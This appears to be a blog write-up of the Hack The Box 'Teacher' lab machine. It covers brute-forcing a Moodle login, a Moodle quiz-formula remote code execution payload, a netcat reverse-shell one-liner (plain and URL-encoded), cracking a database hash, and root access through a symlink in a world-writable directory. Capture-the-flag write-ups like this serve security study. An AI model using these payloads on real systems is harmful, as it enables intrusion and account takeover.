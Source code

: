 ```yaml
---
layout: post
title: Hack The Box - Teacher
categories: hack-the-box
image: /hackthebox/teacher/0.png
---
```

<hr>
### Quick Summary
#### Hey guys , today Teacher retired and here is my write-up about it. I don't have too much to say about this box. It was an easy regular machine , We will exploit an authenticated remote code execution in a vulnerable version of a web application called moodle to get an initial shell on the box. And for privilege escalation we will find a directory which permissions are set to read , write and execute by anyone , and from there we can create a symlink to `/root` or anything else we want to access. It's a linux box and its ip is `10.10.10.153` I added it to `/etc/hosts` as `teacher.htb`. Let's jump right in !
![](/images/hackthebox/teacher/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC teacher.htb`
![](/images/hackthebox/teacher/1.png)
#### We only see http running on port 80. Let's see what's in there.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/teacher/2.png)
#### There is just a static website titled `Blackhat highschool` , I looked into other pages like `Courses` , `Students` etc... And also checked their source code. And on `Gallery` : 
![](/images/hackthebox/teacher/3.png)
#### I found this line in the source :
![](/images/hackthebox/teacher/4.png)
#### for `<img src="images/5.png">` there is an `onerror` attribute to print `That's an F` in the console. So I checked the console : 
![](/images/hackthebox/teacher/5.png)
#### Weird let's check that image. `http://teacher.htb/images/5.png` :
![](/images/hackthebox/teacher/6.png)
#### Corrupted file ? Let's check if it's really a corrupted image or it's not an image at all :
`curl http://teacher.htb/images/5.png`
![](/images/hackthebox/teacher/7.png)
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.                                                 

Could you guys figure out what the last charachter is, or just reset it?                                                                   

Thanks,
Giovanni
```
#### Nice , we have a username and a password but we still need to figure out the last character. But where will we use these credentials anyway ? I ran gobuster with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` in the background and got some results , one of them was `/moodle`. 
`http://teacher.htb/moodle`
![](/images/hackthebox/teacher/8.png)
> Moodle is a free and open-source learning management system written in PHP and distributed under the GNU General Public License  -[Wikipedia](https://en.wikipedia.org/wiki/Moodle)

#### On the login page there's a guest login :
![](/images/hackthebox/teacher/9.png)
#### However I couldn't achieve anything from that guest login.
<br>
<hr>
### Bruteforcing the last character
#### We have the credentials but we need to figure out the last character of the password. I created a list of numbers , letters and special chars and printed them next to the password.
#### `for i in {a..z}; do echo Th4C00lTheacha$i; done > list.txt` this will print all the letters next to `Th4C00lTheacha`
#### Then I added some special chars manually like `!@#$%^&*()_-+=.?/\` and finally I added numbers : `for i in {0..9}; do echo Th4C00lTheacha$i; done >> list.txt`
#### `list.txt` : 
```
Th4C00lTheachaa
Th4C00lTheachab
Th4C00lTheachac
Th4C00lTheachad
Th4C00lTheachae
Th4C00lTheachaf
Th4C00lTheachag
Th4C00lTheachah
Th4C00lTheachai
Th4C00lTheachaj
Th4C00lTheachak
Th4C00lTheachal
Th4C00lTheacham
Th4C00lTheachan
Th4C00lTheachao
Th4C00lTheachap
Th4C00lTheachaq
Th4C00lTheachar
Th4C00lTheachas
Th4C00lTheachat
Th4C00lTheachau
Th4C00lTheachav
Th4C00lTheachaw
Th4C00lTheachax
Th4C00lTheachay
Th4C00lTheachaz
Th4C00lTheacha!
Th4C00lTheacha@
Th4C00lTheacha#
Th4C00lTheacha$
Th4C00lTheacha%
Th4C00lTheacha^
Th4C00lTheacha&
Th4C00lTheacha*
Th4C00lTheacha(
Th4C00lTheacha)
Th4C00lTheacha_
Th4C00lTheacha-
Th4C00lTheacha+
Th4C00lTheacha=
Th4C00lTheacha.
Th4C00lTheacha?
Th4C00lTheacha/
Th4C00lTheacha\
Th4C00lTheacha0
Th4C00lTheacha1
Th4C00lTheacha2
Th4C00lTheacha3
Th4C00lTheacha4
Th4C00lTheacha5
Th4C00lTheacha6
Th4C00lTheacha7
Th4C00lTheacha8
Th4C00lTheacha9
```
#### Since it's a small list , I used burp intruder to bruteforce the password. Let's intercept the request and send it to intruder :
![](/images/hackthebox/teacher/10.png)
<br>
<br>
![](/images/hackthebox/teacher/11.png)
<br>
<br>
![](/images/hackthebox/teacher/12.png)
#### After it's finished , all the responses were 870 bytes in length except the response of the payload `Th4C00lTheacha#`.
![](/images/hackthebox/teacher/13.png)
#### So probably this is the right password , let's check.
![](/images/hackthebox/teacher/14.png)
#### It worked and now we are in as `Giovanni`
<br>
<hr>
### RCE , Initial Shell as `www-data`
#### After some enumeration I didn't find anything interesting , so I searched on Google and found this [article](https://blog.ripstech.com/2018/moodle-remote-code-execution/). Let's try to reproduce that vulnerability.
#### First , we will go to the `Algebra` course :
![](/images/hackthebox/teacher/15.png)
#### Then we will turn editing on :
![](/images/hackthebox/teacher/16.png)
#### Now we can edit the course , so we will choose any topic and click on `Add an activity or resource` and we will choose `Quiz` :
![](/images/hackthebox/teacher/17.png)
#### Then we will just fill in the required information :
![](/images/hackthebox/teacher/18.png)
#### And click on `Save and display`.
![](/images/hackthebox/teacher/19.png)
#### After that we will click on `edit quiz` :
![](/images/hackthebox/teacher/20.png)
#### And add a new question. Question type will be `Calculated` :
![](/images/hackthebox/teacher/21.png)
<br>
<br>
![](/images/hackthebox/teacher/22.png)
#### Again we will fill in the required information :
![](/images/hackthebox/teacher/23.png)
#### And finally we reach the actual exploitation , we will set the answer formula to :
```
/*{a*/`$_GET[0]`;//{x}}`
```
![](/images/hackthebox/teacher/24.png)
#### This will allow us to pass system commands through a url parameter called `0` , More info about how the exploit is working can be found in the previously mentioned article.
#### After saving the changes we will get this page : 
![](/images/hackthebox/teacher/25.png)
#### We will click on `Next Page` to finally get to the vulnerable page :
![](/images/hackthebox/teacher/26.png)
#### Let's add the parameter `0` and get a reverse shell :
#### Shell : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`
![](/images/hackthebox/teacher/27.png)
#### Note : the payload is url encoded. So final payload will be : `&0=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+ip+port+>/tmp/f`
#### After sending the request , our listener gets a callback. And we get a reverse shell as `www-data` :
![](/images/hackthebox/teacher/28.png)
#### There is only `giovanni` on the box and we can't access his `/home` directory as `www-data`.
![](/images/hackthebox/teacher/29.png)
<hr>
### Hardcoded Database Credentials , Privilege Escalation to `giovanni`
#### Back to `/var/www/html/moodle` , I wanted to check config files and other stuff to see if there are any information that can help. And in `config.php` I found database credentials :
![](/images/hackthebox/teacher/30.png)
#### Sweet , Let's see what's in there.
`mysql -h 127.0.0.1 -u root -p`
![](/images/hackthebox/teacher/31.png)
#### We are not in any database `[(none)]` , Let's list the databases :
`SHOW DATABASES;`
![](/images/hackthebox/teacher/32.png)
#### `moodle` is interesting and might have some passwords.
`USE moodle;`
![](/images/hackthebox/teacher/33.png)
#### Now let's check the tables :
`SHOW TABLES;`
![](/images/hackthebox/teacher/34.png)
#### A lot of tables , but an interesting one is called `mdl_user` :
![](/images/hackthebox/teacher/35.png)
#### Alright , let's see what's in that table :
`SELECT * from mdl_user;`
![](/images/hackthebox/teacher/36.png)
#### We didn't get the best output :D but anyway I looked into it and found this `md5` hash :
![](/images/hackthebox/teacher/37.png)
#### And its name is `Giovannibak` , probably a backup for giovanni's password. [crackstation](https://crackstation.net/) was able to crack it :
![](/images/hackthebox/teacher/38.png)
#### The password is `expelled`, we can `su` to `giovanni`
![](/images/hackthebox/teacher/39.png)
#### Now we own user.
<br>
<hr>
### `777`. Ability to read , write and execute anything on the system
#### In giovanni's `/home` directory there is a directory called `work` which has two directories `courses` and `tmp`. Nothing Special.
![](/images/hackthebox/teacher/40.png)
<br>
<br>
![](/images/hackthebox/teacher/41.png)
#### After a lot of enumeration I found in `/usr/bin` a script called `backup.sh` :
![](/images/hackthebox/teacher/42.png)
<br>
<br>
![](/images/hackthebox/teacher/43.png)
#### We don't really care about the `tar` commands , What we care about is that it's changing current directory to `/home/giovanni/work` then changes it once again to `/home/giovanni/work/tmp` then changes permissions to `777` recursively. This means that any user can read , write and execute any file in `/home/giovanni/work/tmp`. So if we created a symlink for `/root` in `/home/giovanni/work/tmp` and wait for the script to get executed by root (cronjob) we will have access to `/root`. In normal conditions creating a symlink to `/root` won't let you have access to it if you don't have the permissions to. Because it's still linking to a directory that you are not authorized to access. But since the script runs `chmod 777` on `/home/giovanni/work/tmp` recursively, Anyone has access to what's in there even symlinks. This [article](https://www.maketecheasier.com/file-permissions-what-does-chmod-777-means/) explains it very well. Read [this](https://stackabuse.com/symbolic-links-in-unix-linux/) if you don't know what's a symlink.
#### Alright , Let's create a symlink for `/root` in `/home/giovanni/work/tmp`
`ln -s /root ./tmp`
![](/images/hackthebox/teacher/44.png)
<br>
<br>
![](/images/hackthebox/teacher/45.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - RedCross](/hack-the-box/redcross/)
#### Next Hack The Box write-up : [Hack The Box - Irked](/hack-the-box/irked/)
<hr>
